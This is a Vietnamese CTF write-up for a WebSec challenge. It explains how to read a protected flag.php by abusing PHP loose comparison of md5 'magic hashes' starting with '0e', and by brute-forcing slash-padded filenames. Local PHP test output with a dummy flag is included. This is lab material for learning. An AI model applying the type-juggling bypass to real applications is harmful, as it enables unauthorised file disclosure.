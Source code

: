 # Solution

Vì ta cần đọc file `flag.php` và `show_source ($file);` => `$_REQUEST['f']` sẽ mang giá trị flag.php

Ở đây nhận thấy `md5()` cùng với `==` => Có thể xảy ra php type juggling (magic hash)

```
php > echo '0e34234523' == 0;
1
```

Suy ra `$_REQUEST['hash'] = 0`

Nhưng nếu để `filename=flag.php` như vậy thì sẽ bị permisson denied ngay lập tức 🥺

Thử tạo một file `flag.php` như sau:

```php
<?php
$flag = "WEBSEC{this_is_a_flag_for_testing}";
```

và test:

```
PS D:\CTFs\WebSec\Level10> php -a
Interactive shell

php > echo show_source('./flag.php');                                                                                                   a
<code><span style="color: #000000">
<br />$flag&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #DD0000">"WEBSEC{this_is_a_flag_for_testing}"</span><span style="color: #007700">;</span>
</span>
</code>1
php > echo show_source('./////flag.php');
<code><span style="color: #000000">
<br />$flag&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #DD0000">"WEBSEC{this_is_a_flag_for_testing}"</span><span style="color: #007700">;</span>
</span>
</code>1
php >
```

=> ta sẽ brute force giá trị của file name: `./flag.php`, `.//flag.php` .... tới khi nào `md5($flag . $file . $flag)` bắt đầu với `0e`


